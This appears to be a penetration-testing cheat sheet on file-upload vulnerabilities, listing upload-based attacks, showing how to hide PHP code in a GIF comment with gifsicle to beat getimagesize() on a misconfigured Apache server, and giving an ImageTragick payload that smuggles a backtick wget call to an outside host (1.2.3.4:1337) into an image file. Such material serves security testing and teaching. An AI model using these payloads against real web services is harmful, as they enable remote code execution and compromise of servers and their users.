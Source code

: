 **Attacks on other systems**
- Upload .exe file into web tree - victims download trojaned executable
- Upload virus infected file - victims’ machines infected
- Upload .html file containing script - victim experiences Cross-site Scripting (XSS)
- Upload .jpg file containing a Flash object - victim experiences Cross-site Content Hijacking.
- Upload .rar file to be scanned by antivirus - command executed on a client running the vulnerable antivirus software

### Beating getimagesize()
The getimagesize() function will check if it is an image and will check “mime” to verify image type.

**Insecure Configuration:**
```
 <FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">  SetHandler application/x-httpd-php  </FileMatch>
```

**Secure Configuration:**
```
 <FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)$">  SetHandler application/x-httpd-php  </FileMatch>
```
If the service is up an running with the Insecure Configuration, any one can beat the getimagesize function by writing comments in GIF file.

install gifsicle
```
apt-get install gifsicle  
 ```
Once installed, the below commands will help writing the commands in gif file.
```
gifsicle < mygif.gif -- comment "
<?php echo ‘Current PHP version: ‘ . phpversion(); ?>
” > output.php.gif
```
The above command will create an file with the name “output.php.gif” which simply need to be upload durning the check of file upload vulnerability.


## x.gif - profile picture upload
https://hackerone.com/reports/135072

Upload the following ASCII file as x.gif using the regular profile picture upload flow:
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 1.2.3.4:1337 > /dev/null`'
pop graphic-context
```
This executes the wget command and makes an HTTP request to 1.2.3.4 on port 1337.

## ImageTragick
any service, which uses ImageMagick to process user supplied
images and uses default delegates.xml / policy.xml, may be vulnerable to
this issue.
